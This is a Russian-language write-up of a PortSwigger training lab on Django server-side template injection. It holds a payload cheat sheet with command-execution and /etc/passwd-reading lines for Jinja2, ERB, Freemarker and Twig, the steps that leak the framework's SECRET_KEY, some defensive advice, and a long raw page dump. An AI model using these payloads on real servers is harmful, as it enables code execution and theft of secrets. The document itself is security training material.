


### Внедрение шаблона на стороне сервера с раскрытием информации с помощью пользовательских объектов

Хотя внедрение шаблонов на стороне сервера потенциально может привести к удаленному выполнению кода и полному захвату сервера, на практике этого не всегда возможно достичь. Однако только потому, что вы исключили удаленное выполнение кода, это не обязательно означает, что нет потенциала для другого вида эксплойта. Вы все еще можете использовать уязвимости шаблонов на стороне сервера для других эксплойтов высокой тяжести, таких как обход пути к файлу, чтобы получить доступ к конфиденциальным данным

-----

лаба https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects
аборатория уязвима для внедрения шаблона на стороне сервера из-за способа, которым объект передается в шаблон

задание: украдите и отправьте секретный ключ фреймворка


----------


в лабе я в роли контент менеджера - с возможностью редактировать текст под постами

------

вот запрос на редактирование текста в комментах
```http
POST /product/template?productId=1 HTTP/2
Host: 0ae3007f04719b298283423100c5008f.web-security-academy.net
Cookie: session=eLGIjdY1Ss49nCu6dYAUTRzHCsRKBO7Y
Content-Length: 72
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0ae3007f04719b298283423100c5008f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae3007f04719b298283423100c5008f.web-security-academy.net/product/template?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=eR6CD666p5px5jwnYoh8VRKGJp7SSBe2&template=7777&template-action=save
```

 ну и вот так все это отражается в html страницы
 ```c
<label>Description:</label>
        7777

<a class=button href=/product/template?productId=1>Edit template</a>
 ```




-----------

пробую выполнить код
шпаргалки по пэйлоадам (для разных движков)

### Python (Jinja2, Mako, Tornado, django)
```c
{{config}}
{{6*6}}
{{self.__init__.__globals__.__builtins__}}
{{''.__class__.__mro__[1].__subclasses__()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

```
### Ruby (ERB)
```c
<%= system('id') %>
<%= File.read('/etc/passwd') %>
<%= `id` %>
```

### Java (Freemarker, Velocity)
```c
${7*7}
<#assign ex = "freemarker.template.utility.Execute"?new()>${ex("id")}
${.vars["java.lang.Runtime"].getRuntime().exec("id")}
```

### PHP (Twig, Smarty)
```c
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{$smarty.version}
{php}echo system('id');{/php}
```

### node.js
```c
{{this}}
```

----------

пейлоад в параметр `{{6*6}}`
ответ с ошибкой
```c
Traceback (most recent call last):

  File &quot;&lt;string&gt;&quot;, line 11, in &lt;module&gt;
  File &quot;/usr/local/lib/python2.7/dist-packages/django/template/base.py&quot;, line 191, in __init__
    self.nodelist = self.compile_nodelist()
  File &quot;/usr/local/lib/python2.7/dist-packages/django/template/base.py&quot;, line 230, in compile_nodelist
    return parser.parse()
  File &quot;/usr/local/lib/python2.7/dist-packages/django/template/base.py&quot;, line 486, in parse
    raise self.error(token, e)
django.template.exceptions.TemplateSyntaxError: Could not parse the remainder: &apos;*6&apos; from &apos;6*6&apos;
```

что я имею =` django`
это фреймворк для веба на python
для него синтаксис такой ``
django считается одним из самых безопасных фреймворков

-----

пейлоад ``
ответ
```c
Traceback (most recent call last):
  File &quot;&lt;string&gt;&quot;, line 11, in &lt;module&gt;
  
  File &quot;/usr/local/lib/python2.7/dist-packages/django/template/base.py&quot;, 
  
  line 191, in __init__
  
    self.nodelist = self.compile_nodelist()
  File &quot;/usr/local/lib/python2.7/dist-packages/django/template/base.py&quot;, line 230, in compile_nodelist
    return parser.parse()
  File &quot;/usr/local/lib/python2.7/dist-packages/django/template/base.py&quot;, line 515, in parse
    raise self.error(token, e)
django.template.exceptions.TemplateSyntaxError: Unclosed tag on line 1: &apos;autoescape&apos;. Looking for one of: endautoescape.
```


---

получилось вывести 5
пейлоад в параметре
```c
csrf=eR6CD666p5px5jwnYoh8VRKGJp7SSBe2&template={{%20value|add:"5"%20}}&template-action=save
```
в ответе `5`

то есть я подтвердил, что могу достучатсья до сервера и могу выполнять там код!
шаблонизатор выполнил код и подставил результат

-----

вывод переменных окружения
```c
{{ settings.SECRET_KEY }}
```

ответ с флагом  🔶 ji0exgrllhg2wtexjwjgvcmcy5ijlpth


🏆 лаба решена!

------

### 🍺🍺 вывод

я смог взломать эту лабу потому что разработчик передал объекты пользователя в шаблон и позволил мне обращаться к их методам

сначала я нашел место где редактируется описание товара. в параметре template и подставил разные пэйлоады, выяснил, что это Django - ошибка на `{{6*6}}` выдала `django.template.exceptions.TemplateSyntaxError`


я проверил что могу выполнять код через фильтр add: {{ value|add:"5" }} вернул 5 - значит SSTI есть!

дальше я решил, что если не могу выполнить произвольный код через стандартные теги, можно попробовать вытащить информацию через объекты которые передаются в шаблон. самым очевидным был объект settings - в Django через него можно получить секретный ключ

я отправил `{{ settings.SECRET_KEY }}` и получил флаг ji0exgrllhg2wtexjwjgvcmcy5ijlpth

> потом для интереса отправил `` и получил полный дамп всех переменных окружения, всех импортированных модулей и всех объектов, которые были доступны в шаблоне. там был даже список всех модулей Python на сервере - os, subprocess, django, jinja2, json, socket и другие


#### как можно защититься  
в Django нужно всегда отключать DEBUG режим на продакшене  

ограничивать доступ к объектам в контексте шаблона - не передавать туда то, что не нужно  

использовать систему разрешений для доступа к атрибутам объектов  

не передавать объект settings целиком в шаблон - это катастрофа  

если нужен только ключ, его можно передать как отдельную переменную 

санитаризировать парметры все, на спец символы

-------------


а вот таким запросом - вывел все переменные окружения
``

мне сервак отдал не только переменные, но и свою душу похоже....




```c
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 60414

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>Server-side template injection with information disclosure via user-supplied objects</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <!--LAB_HEADER_START-->
        <div id="academyLabHeader">
            <section class='academyLabBanner is-solved'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Server-side template injection with information disclosure via user-supplied objects</h2>
                            <a class=link-back href='https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-solved'>
                            <span>LAB</span>
                            <p>Solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
            <section id=notification-labsolved class=notification-labsolved-hidden>
                <div class=container>
                    <h4>Congratulations, you solved the lab!</h4>
                    <div>
                        <span>
                            Share your skills!
                        </span>
                        <a class=button href='https://twitter.com/intent/tweet?text=I+completed+the+Web+Security+Academy+lab%3a%0aServer-side+template+injection+with+information+disclosure+via+user-supplied+objects%0a%0a@WebSecAcademy%0a&url=https%3a%2f%2fportswigger.net%2fweb-security%2fserver-side-template-injection%2fexploiting%2flab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects&related=WebSecAcademy,Burp_Suite'>
                    <svg xmlns='http://www.w3.org/2000/svg' width=24 height=24 viewBox='0 0 20.44 17.72'>
                        <title>twitter-button</title>
                        <path d='M0,15.85c11.51,5.52,18.51-2,18.71-12.24.3-.24,1.73-1.24,1.73-1.24H18.68l1.43-2-2.74,1a4.09,4.09,0,0,0-5-.84c-3.13,1.44-2.13,4.94-2.13,4.94S6.38,6.21,1.76,1c-1.39,1.56,0,5.39.67,5.73C2.18,7,.66,6.4.66,5.9-.07,9.36,3.14,10.54,4,10.72a2.39,2.39,0,0,1-2.18.08c-.09,1.1,2.94,3.33,4.11,3.27A10.18,10.18,0,0,1,0,15.85Z'></path>
                    </svg>
                        </a>
                        <a class=button href='https://www.linkedin.com/sharing/share-offsite?url=https%3a%2f%2fportswigger.net%2fweb-security%2fserver-side-template-injection%2fexploiting%2flab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects'>
                    <svg viewBox='0 0 64 64' width='24' xml:space='preserve' xmlns='http://www.w3.org/2000/svg'
                        <title>linkedin-button</title>
                        <path d='M2,6v52c0,2.2,1.8,4,4,4h52c2.2,0,4-1.8,4-4V6c0-2.2-1.8-4-4-4H6C3.8,2,2,3.8,2,6z M19.1,52H12V24.4h7.1V52z    M15.6,18.9c-2,0-3.6-1.5-3.6-3.4c0-1.9,1.6-3.4,3.6-3.4c2,0,3.6,1.5,3.6,3.4C19.1,17.4,17.5,18.9,15.6,18.9z M52,52h-7.1V38.2   c0-2.9-0.1-4.8-0.4-5.7c-0.3-0.9-0.8-1.5-1.4-2c-0.7-0.5-1.5-0.7-2.4-0.7c-1.2,0-2.3,0.3-3.2,1c-1,0.7-1.6,1.6-2,2.7   c-0.4,1.1-0.5,3.2-0.5,6.2V52h-8.6V24.4h7.1v4.1c2.4-3.1,5.5-4.7,9.2-4.7c1.6,0,3.1,0.3,4.5,0.9c1.3,0.6,2.4,1.3,3.1,2.2   c0.7,0.9,1.2,1.9,1.4,3.1c0.3,1.1,0.4,2.8,0.4,4.9V52z'/>
                    </svg>
                        </a>
                        <a href='https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects'>
                            Continue learning 
                            <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                <g>
                                    <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                    <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                </g>
                            </svg>
                        </a>
                    </div>
                </div>
            </section>

            <script src='/resources/labheader/js/completedLabHeader.js'></script>        </div>
        <!--LAB_HEADER_END-->
        <div theme="ecommerce">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account?id=content-manager">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="product">
                        <h3>Fur Babies</h3>
                        
                        <div id="price">$58.53</div>
                        
                        <label>Description:</label>
                        {'product': {'name': 'Fur Babies', 'price': '$58.53', 'stock': 543},
 'settings': <LazySettings "None">}{'False': False, 'None': None, 'True': True}

{'Cookie': <module 'Cookie' from '/usr/lib/python2.7/Cookie.pyc'>,
 'HTMLParser': <module 'HTMLParser' from '/usr/lib/python2.7/HTMLParser.pyc'>,
 'SocketServer': <module 'SocketServer' from '/usr/lib/python2.7/SocketServer.pyc'>,
 'StringIO': <module 'StringIO' from '/usr/lib/python2.7/StringIO.pyc'>,
 'UserDict': <module 'UserDict' from '/usr/lib/python2.7/UserDict.pyc'>,
 'UserList': <module 'UserList' from '/usr/lib/python2.7/UserList.pyc'>,
 '__builtin__': <module '__builtin__' (built-in)>,
 '__future__': <module '__future__' from '/usr/lib/python2.7/__future__.pyc'>,
 '__main__': <module '__main__' (built-in)>,
 '_abcoll': <module '_abcoll' from '/usr/lib/python2.7/_abcoll.pyc'>,
 '_ast': <module '_ast' (built-in)>,
 '_bisect': <module '_bisect' (built-in)>,
 '_codecs': <module '_codecs' (built-in)>,
 '_collections': <module '_collections' (built-in)>,
 '_ctypes': <module '_ctypes' from '/usr/lib/python2.7/lib-dynload/_ctypes.x86_64-linux-gnu.so'>,
 '_functools': <module '_functools' (built-in)>,
 '_hashlib': <module '_hashlib' from '/usr/lib/python2.7/lib-dynload/_hashlib.x86_64-linux-gnu.so'>,
 '_heapq': <module '_heapq' (built-in)>,
 '_io': <module '_io' (built-in)>,
 '_json': <module '_json' from '/usr/lib/python2.7/lib-dynload/_json.x86_64-linux-gnu.so'>,
 '_locale': <module '_locale' (built-in)>,
 '_random': <module '_random' (built-in)>,
 '_socket': <module '_socket' (built-in)>,
 '_sre': <module '_sre' (built-in)>,
 '_ssl': <module '_ssl' from '/usr/lib/python2.7/lib-dynload/_ssl.x86_64-linux-gnu.so'>,
 '_struct': <module '_struct' (built-in)>,
 '_sysconfigdata': <module '_sysconfigdata' from '/usr/lib/python2.7/_sysconfigdata.pyc'>,
 '_sysconfigdata_nd': <module '_sysconfigdata_nd' from '/usr/lib/python2.7/plat-x86_64-linux-gnu/_sysconfigdata_nd.pyc'>,
 '_warnings': <module '_warnings' (built-in)>,
 '_weakref': <module '_weakref' (built-in)>,
 '_weakrefset': <module '_weakrefset' from '/usr/lib/python2.7/_weakrefset.pyc'>,
 'abc': <module 'abc' from '/usr/lib/python2.7/abc.pyc'>,
 'argparse': <module 'argparse' from '/usr/lib/python2.7/argparse.pyc'>,
 'array': <module 'array' (built-in)>,
 'ast': <module 'ast' from '/usr/lib/python2.7/ast.pyc'>,
 'atexit': <module 'atexit' from '/usr/lib/python2.7/atexit.pyc'>,
 'base64': <module 'base64' from '/usr/lib/python2.7/base64.pyc'>,
 'binascii': <module 'binascii' (built-in)>,
 'bisect': <module 'bisect' from '/usr/lib/python2.7/bisect.pyc'>,
 'bz2': <module 'bz2' from '/usr/lib/python2.7/lib-dynload/bz2.x86_64-linux-gnu.so'>,
 'cPickle': <module 'cPickle' (built-in)>,
 'cStringIO': <module 'cStringIO' (built-in)>,
 'calendar': <module 'calendar' from '/usr/lib/python2.7/calendar.pyc'>,
 'cgi': <module 'cgi' from '/usr/lib/python2.7/cgi.pyc'>,
 'codecs': <module 'codecs' from '/usr/lib/python2.7/codecs.pyc'>,
 'collections': <module 'collections' from '/usr/lib/python2.7/collections.pyc'>,
 'contextlib': <module 'contextlib' from '/usr/lib/python2.7/contextlib.pyc'>,
 'copy': <module 'copy' from '/usr/lib/python2.7/copy.pyc'>,
 'copy_reg': <module 'copy_reg' from '/usr/lib/python2.7/copy_reg.pyc'>,
 'ctypes': <module 'ctypes' from '/usr/lib/python2.7/ctypes/__init__.pyc'>,
 'ctypes._ctypes': None,
 'ctypes._endian': <module 'ctypes._endian' from '/usr/lib/python2.7/ctypes/_endian.pyc'>,
 'ctypes.ctypes': None,
 'ctypes.errno': None,
 'ctypes.os': None,
 'ctypes.re': None,
 'ctypes.struct': None,
 'ctypes.subprocess': None,
 'ctypes.sys': None,
 'ctypes.tempfile': None,
 'ctypes.util': <module 'ctypes.util' from '/usr/lib/python2.7/ctypes/util.pyc'>,
 'datetime': <module 'datetime' (built-in)>,
 'decimal': <module 'decimal' from '/usr/lib/python2.7/decimal.pyc'>,
 'dis': <module 'dis' from '/usr/lib/python2.7/dis.pyc'>,
 'django': <module 'django' from '/usr/local/lib/python2.7/dist-packages/django/__init__.pyc'>,
 'django.__future__': None,
 'django.apps': <module 'django.apps' from '/usr/local/lib/python2.7/dist-packages/django/apps/__init__.pyc'>,
 'django.apps.collections': None,
 'django.apps.config': <module 'django.apps.config' from '/usr/local/lib/python2.7/dist-packages/django/apps/config.pyc'>,
 'django.apps.django': None,
 'django.apps.functools': None,
 'django.apps.importlib': None,
 'django.apps.os': None,
 'django.apps.registry': <module 'django.apps.registry' from '/usr/local/lib/python2.7/dist-packages/django/apps/registry.pyc'>,
 'django.apps.sys': None,
 'django.apps.threading': None,
 'django.apps.warnings': None,
 'django.conf': <module 'django.conf' from '/usr/local/lib/python2.7/dist-packages/django/conf/__init__.pyc'>,
 'django.conf.__future__': None,
 'django.conf.django': None,
 'django.conf.global_settings': <module 'django.conf.global_settings' from '/usr/local/lib/python2.7/dist-packages/django/conf/global_settings.pyc'>,
 'django.conf.importlib': None,
 'django.conf.os': None,
 'django.conf.time': None,
 'django.core': <module 'django.core' from '/usr/local/lib/python2.7/dist-packages/django/core/__init__.pyc'>,
 'django.core.__future__': None,
 'django.core.base64': None,
 'django.core.cache': <module 'django.core.cache' from '/usr/local/lib/python2.7/dist-packages/django/core/cache/__init__.pyc'>,
 'django.core.cache.__future__': None,
 'django.core.cache.backends': <module 'django.core.cache.backends' from '/usr/local/lib/python2.7/dist-packages/django/core/cache/backends/__init__.pyc'>,
 'django.core.cache.backends.__future__': None,
 'django.core.cache.backends.base': <module 'django.core.cache.backends.base' from '/usr/local/lib/python2.7/dist-packages/django/core/cache/backends/base.pyc'>,
 'django.core.cache.backends.django': None,
 'django.core.cache.backends.time': None,
 'django.core.cache.backends.warnings': None,
 'django.core.cache.django': None,
 'django.core.cache.hashlib': None,
 'django.core.cache.threading': None,
 'django.core.cache.utils': <module 'django.core.cache.utils' from '/usr/local/lib/python2.7/dist-packages/django/core/cache/utils.pyc'>,
 'django.core.checks': <module 'django.core.checks' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/__init__.pyc'>,
 'django.core.checks.__future__': None,
 'django.core.checks.caches': <module 'django.core.checks.caches' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/caches.pyc'>,
 'django.core.checks.collections': None,
 'django.core.checks.compatibility': <module 'django.core.checks.compatibility' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/compatibility/__init__.pyc'>,
 'django.core.checks.compatibility.__future__': None,
 'django.core.checks.compatibility.django': None,
 'django.core.checks.compatibility.django_1_10': <module 'django.core.checks.compatibility.django_1_10' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/compatibility/django_1_10.pyc'>,
 'django.core.checks.compatibility.django_1_8_0': <module 'django.core.checks.compatibility.django_1_8_0' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/compatibility/django_1_8_0.pyc'>,
 'django.core.checks.copy': None,
 'django.core.checks.database': <module 'django.core.checks.database' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/database.pyc'>,
 'django.core.checks.django': None,
 'django.core.checks.inspect': None,
 'django.core.checks.itertools': None,
 'django.core.checks.messages': <module 'django.core.checks.messages' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/messages.pyc'>,
 'django.core.checks.model_checks': <module 'django.core.checks.model_checks' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/model_checks.pyc'>,
 'django.core.checks.registry': <module 'django.core.checks.registry' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/registry.pyc'>,
 'django.core.checks.security': <module 'django.core.checks.security' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/security/__init__.pyc'>,
 'django.core.checks.security.base': <module 'django.core.checks.security.base' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/security/base.pyc'>,
 'django.core.checks.security.csrf': <module 'django.core.checks.security.csrf' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/security/csrf.pyc'>,
 'django.core.checks.security.django': None,
 'django.core.checks.security.sessions': <module 'django.core.checks.security.sessions' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/security/sessions.pyc'>,
 'django.core.checks.templates': <module 'django.core.checks.templates' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/templates.pyc'>,
 'django.core.checks.types': None,
 'django.core.checks.urls': <module 'django.core.checks.urls' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/urls.pyc'>,
 'django.core.checks.utils': <module 'django.core.checks.utils' from '/usr/local/lib/python2.7/dist-packages/django/core/checks/utils.pyc'>,
 'django.core.collections': None,
 'django.core.datetime': None,
 'django.core.django': None,
 'django.core.exceptions': <module 'django.core.exceptions' from '/usr/local/lib/python2.7/dist-packages/django/core/exceptions.pyc'>,
 'django.core.files': <module 'django.core.files' from '/usr/local/lib/python2.7/dist-packages/django/core/files/__init__.pyc'>,
 'django.core.files.__future__': None,
 'django.core.files.base': <module 'django.core.files.base' from '/usr/local/lib/python2.7/dist-packages/django/core/files/base.pyc'>,
 'django.core.files.datetime': None,
 'django.core.files.django': None,
 'django.core.files.errno': None,
 'django.core.files.fcntl': None,
 'django.core.files.images': <module 'django.core.files.images' from '/usr/local/lib/python2.7/dist-packages/django/core/files/images.pyc'>,
 'django.core.files.io': None,
 'django.core.files.locks': <module 'django.core.files.locks' from '/usr/local/lib/python2.7/dist-packages/django/core/files/locks.pyc'>,
 'django.core.files.move': <module 'django.core.files.move' from '/usr/local/lib/python2.7/dist-packages/django/core/files/move.pyc'>,
 'django.core.files.os': None,
 'django.core.files.shutil': None,
 'django.core.files.storage': <module 'django.core.files.storage' from '/usr/local/lib/python2.7/dist-packages/django/core/files/storage.pyc'>,
 'django.core.files.struct': None,
 'django.core.files.temp': <module 'django.core.files.temp' from '/usr/local/lib/python2.7/dist-packages/django/core/files/temp.pyc'>,
 'django.core.files.tempfile': None,
 'django.core.files.uploadedfile': <module 'django.core.files.uploadedfile' from '/usr/local/lib/python2.7/dist-packages/django/core/files/uploadedfile.pyc'>,
 'django.core.files.uploadhandler': <module 'django.core.files.uploadhandler' from '/usr/local/lib/python2.7/dist-packages/django/core/files/uploadhandler.pyc'>,
 'django.core.files.utils': <module 'django.core.files.utils' from '/usr/local/lib/python2.7/dist-packages/django/core/files/utils.pyc'>,
 'django.core.files.warnings': None,
 'django.core.files.zlib': None,
 'django.core.json': None,
 'django.core.mail': <module 'django.core.mail' from '/usr/local/lib/python2.7/dist-packages/django/core/mail/__init__.pyc'>,
 'django.core.mail.__future__': None,
 'django.core.mail.django': None,
 'django.core.mail.email': None,
 'django.core.mail.io': None,
 'django.core.mail.message': <module 'django.core.mail.message' from '/usr/local/lib/python2.7/dist-packages/django/core/mail/message.pyc'>,
 'django.core.mail.mimetypes': None,
 'django.core.mail.os': None,
 'django.core.mail.random': None,
 'django.core.mail.socket': None,
 'django.core.mail.time': None,
 'django.core.mail.utils': <module 'django.core.mail.utils' from '/usr/local/lib/python2.7/dist-packages/django/core/mail/utils.pyc'>,
 'django.core.management': <module 'django.core.management' from '/usr/local/lib/python2.7/dist-packages/django/core/management/__init__.pyc'>,
 'django.core.management.__future__': None,
 'django.core.management.argparse': None,
 'django.core.management.base': <module 'django.core.management.base' from '/usr/local/lib/python2.7/dist-packages/django/core/management/base.pyc'>,
 'django.core.management.collections': None,
 'django.core.management.color': <module 'django.core.management.color' from '/usr/local/lib/python2.7/dist-packages/django/core/management/color.pyc'>,
 'django.core.management.django': None,
 'django.core.management.importlib': None,
 'django.core.management.os': None,
 'django.core.management.pkgutil': None,
 'django.core.management.sys': None,
 'django.core.math': None,
 'django.core.os': None,
 'django.core.paginator': <module 'django.core.paginator' from '/usr/local/lib/python2.7/dist-packages/django/core/paginator.pyc'>,
 'django.core.re': None,
 'django.core.serializers': <module 'django.core.serializers' from '/usr/local/lib/python2.7/dist-packages/django/core/serializers/__init__.pyc'>,
 'django.core.serializers.__future__': None,
 'django.core.serializers.base': <module 'django.core.serializers.base' from '/usr/local/lib/python2.7/dist-packages/django/core/serializers/base.pyc'>,
 'django.core.serializers.collections': None,
 'django.core.serializers.django': None,
 'django.core.serializers.importlib': None,
 'django.core.serializers.json': <module 'django.core.serializers.json' from '/usr/local/lib/python2.7/dist-packages/django/core/serializers/json.pyc'>,
 'django.core.serializers.python': <module 'django.core.serializers.python' from '/usr/local/lib/python2.7/dist-packages/django/core/serializers/python.pyc'>,
 'django.core.signals': <module 'django.core.signals' from '/usr/local/lib/python2.7/dist-packages/django/core/signals.pyc'>,
 'django.core.signing': <module 'django.core.signing' from '/usr/local/lib/python2.7/dist-packages/django/core/signing.pyc'>,
 'django.core.time': None,
 'django.core.validators': <module 'django.core.validators' from '/usr/local/lib/python2.7/dist-packages/django/core/validators.pyc'>,
 'django.core.warnings': None,
 'django.core.zlib': None,
 'django.db': <module 'django.db' from '/usr/local/lib/python2.7/dist-packages/django/db/__init__.pyc'>,
 'django.db.backends': <module 'django.db.backends' from '/usr/local/lib/python2.7/dist-packages/django/db/backends/__init__.pyc'>,
 'django.db.backends.__future__': None,
 'django.db.backends.datetime': None,
 'django.db.backends.decimal': None,
 'django.db.backends.django': None,
 'django.db.backends.hashlib': None,
 'django.db.backends.logging': None,
 'django.db.backends.time': None,
 'django.db.backends.utils': <module 'django.db.backends.utils' from '/usr/local/lib/python2.7/dist-packages/django/db/backends/utils.pyc'>,
 'django.db.django': None,
 'django.db.importlib': None,
 'django.db.migrations': <module 'django.db.migrations' from '/usr/local/lib/python2.7/dist-packages/django/db/migrations/__init__.pyc'>,
 'django.db.migrations.__future__': None,
 'django.db.migrations.collections': None,
 'django.db.migrations.contextlib': None,
 'django.db.migrations.copy': None,
 'django.db.migrations.django': None,
 'django.db.migrations.exceptions': <module 'django.db.migrations.exceptions' from '/usr/local/lib/python2.7/dist-packages/django/db/migrations/exceptions.pyc'>,
 'django.db.migrations.migration': <module 'django.db.migrations.migration' from '/usr/local/lib/python2.7/dist-packages/django/db/migrations/migration.pyc'>,
 'django.db.migrations.operations': <module 'django.db.migrations.operations' from '/usr/local/lib/python2.7/dist-packages/django/db/migrations/operations/__init__.pyc'>,
 'django.db.migrations.operations.__future__': None,
 'django.db.migrations.operations.base': <module 'django.db.migrations.operations.base' from '/usr/local/lib/python2.7/dist-packages/django/db/migrations/operations/base.pyc'>,
 'django.db.migrations.operations.django': None,
 'django.db.migrations.operations.fields': <module 'django.db.migrations.operations.fields' from '/usr/local/lib/python2.7/dist-packages/django/db/migrations/operations/fields.pyc'>,
